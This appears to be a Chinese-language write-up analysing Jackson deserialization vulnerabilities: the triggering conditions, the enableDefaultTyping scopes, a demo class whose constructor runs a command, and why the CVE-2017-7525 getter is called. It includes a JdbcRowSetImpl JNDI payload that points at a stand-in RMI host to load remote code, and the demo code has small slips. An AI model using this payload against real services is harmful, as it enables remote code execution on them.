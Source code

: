 # Jackson的利用触发及小细节

不会很详细，简单分析一些重要的
## 触发前提
满足下面三个条件之一即存在Jackson反序列化漏洞：

调用了ObjectMapper.enableDefaultTyping()函数； 

对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解； 

对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL_CLASS的@JsonTypeInfo注解； 


## 漏洞原理

其实跟fastjson反序列化漏洞原因类似，漏洞触发方法主要分为两种：

1、目标类的构造函数、set系列函数含有恶意操作，并且参数可控制；

2、目标类的子类、活着目标类的属性的子类的构造函数、set系列函数含有恶意操作，并且参数可控制，如目标类有个属性类型为Object，那么服务端中任意其他类都能为我所用。

### enableDefaultTyping

enableDefaultTyping可以设置如下参数，适用范围从上至下逐渐变大。

| enableDefaultTyping类型 | 说明                                                |
| ----------------------- | --------------------------------------------------- |
| JAVA_LANG_OBJECT        | 属性的类型为Object                                  |
| OBJECT_AND_NON_CONCRETE | 属性的类型为Object、Interface、AbstractClass        |
| NON_CONCRETE_AND_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON_FINAL               | 所有除了声明为final之外的属性                       |

​		

### 第一种

需要开启DefaultTyping，其余大致利用思路和fastjson差不多

```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
```

列举一个利用payload大概格式如此

```java
String json = "[\"com.sun.rowset.JdbcRowSetImpl\", {\"dataSourceName\":\"rmi://vps/Exp\", \"autoCommit\":true}]";
```



### 第二种

简单举个例子来理解下，新增一个Test类



```java

import java.io.IOException;

public class Test {
    public String testt = "test";
    public Monitor() throws IOException {
        Runtime.getRuntime().exec("opened -na Calculator");
    }
}

```

简单写个Student类，注意下面有个被Object修饰的

```java
public class Student {
    public String name;
    public String sex;
    public Object myObject;

    public Student(){
        System.out.println("构造函数");
    }
    public String getName(){
        System.out.println("getName");
        return name;
    }
    public void setName(String name){
        System.out.println("setName");
        this.name = name;
    }
    public String getSex(){
        System.out.println("getSex");
        return sex;
    }
    public void setSex(String sex){
        System.out.println("setSex");
        this.sex = sex;
    }

    public Object getMyObject() {
        System.out.println("getMyObject");
        return myObject;
    }
    public void setMyObject(Object myObject) {
        System.out.println("setMyObject");
        this.myObject = myObject;
    }
    @Override
    public String toString() {
        return String.format("Person.name=%s, Person.sex=%s", name, sex);
    }
}
```

利用

```java
ObjectMapper mapper = new ObjectMapper();
      mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT); 
        Student s2 = mapper.readValue("{\"name\":\"5wimming\",\"sex\":\"boy\",\"myObject\":[\"jacksonn.Test\",{\"testt\":\"test\"}]}", Student.class);
```

如果没有开`JAVA_LANG_OBJECT`，Test类在做反序列化的时候，只是做了赋值，并没有进行实例化，因此没有调用Test的构造函数；开启了`JAVA_LANG_OBJECT`后，反序列化Student时候也会发序列化Test，所以调用了Monitor的构造函数，简单测试了下除了设置`NON_FINAL`以外都可以




## 如何在反序列化的时候触发get方法

其实也就是CVE-2017-7525（基于TemplatesImpl利用链）为什么会触发`getOutputproperties`，这点网上基本上没说，这里简单放个图就懂了



在`com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize`中，会根据属性名从this._beanProperties寻找对应的调用方法

![](img/1.png)

这里长话短说，在`com.fasterxml.jackson.databind.deser.BeanDeserializerFactory#addBeanProps`当中，可以很清楚的看出大概逻辑

1. 首先看看有无set方法
2. 如果没有set方法则看看有无这个字段，后面通过反射复制
3. 如果没有set方法以及字段，则会去寻找get方法（前提返回值是Collection、Map及其子类）

![](img/2.png)

这里很清楚就能知道为何能触发`getOutputproperties`，没有`setOutputproperties`,也没有`outputproperties`这个字段，并且`getOutputproperties`返回是`Properties(继承Map类)`



## 参考文章

其他部分可以看看参考文章即可，当然参考文章当中没有提及为什么能过触发get方法，这里帮忙填个坑了

http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB
